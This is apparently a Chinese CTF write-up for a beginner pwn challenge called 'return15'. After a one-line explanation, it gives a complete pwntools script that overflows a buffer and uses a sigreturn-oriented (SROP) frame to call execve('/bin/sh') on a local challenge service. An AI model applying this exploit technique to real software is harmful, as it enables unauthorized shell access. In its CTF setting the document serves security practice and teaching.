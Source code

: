 ## return15

> 这怎么有一个 F ？

预期难度：Normal

最简单的 srop 板子，题目还给了`/bin/sh`字符串，直接用 pwntools 一把梭就行



**exp**

```python
#! /usr/bin/env python3.8
from pwn import *
from ctools import *

context(os="linux", arch="amd64")
TMUX_TERMINAL()
# context.log_level = "debug"

elf_path = './pwn'
libc_path = './libc.so.6'

init_elf_with_libc(elf_path, libc_path)
DEBUG = lambda script = '': gdb.attach(io, gdbscript=script)

conn_context(host='127.0.0.1', port=9999, level=LOCAL, elf=elf_path)

elf = ELF(elf_path)
# libc = ELF(libc_path, checksec=False)
io = conn()
    
def exp():
    syscall_ret = 0x40111C
    mov_rax_15 = 0x40110A
    binsh = 0x402008

    frame = SigreturnFrame() # syscall execve
    frame.rax = 0x3b # syscall code
    frame.rdi = binsh
    frame.rsi = 0
    frame.rdx = 0
    frame.rip = syscall_ret

    pad = b'a' * 0x28 + p64(mov_rax_15) + p64(syscall_ret)
    pad += bytes(frame)
    io.sendline(pad)
    
    pass

try:
    exp()
    io.interactive()
finally:
    rm_core()
```
